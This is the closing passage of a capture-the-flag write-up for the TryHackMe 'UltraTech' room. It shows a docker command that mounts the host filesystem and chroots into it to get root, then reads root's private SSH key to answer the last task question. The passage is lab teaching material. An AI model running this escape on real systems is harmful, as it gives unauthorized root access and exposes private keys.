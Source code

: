 ```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

![image.png](/assets/writeups/thm/thm-ultratech/privesc.png)

After gaining root permission, we then need to find the `id_rsa` key to complete our goal.

![image.png](/assets/writeups/thm/thm-ultratech/rsa-key.png)

#### Task 4: Question 1 Flag
<details><summary><b>What are the first 9 characters of the root user's private SSH key?</b></summary></details>
<br>

Thanks for reading my write-up, I hope you learned something new! Feel free to connect with me if you have any questions. 🙂
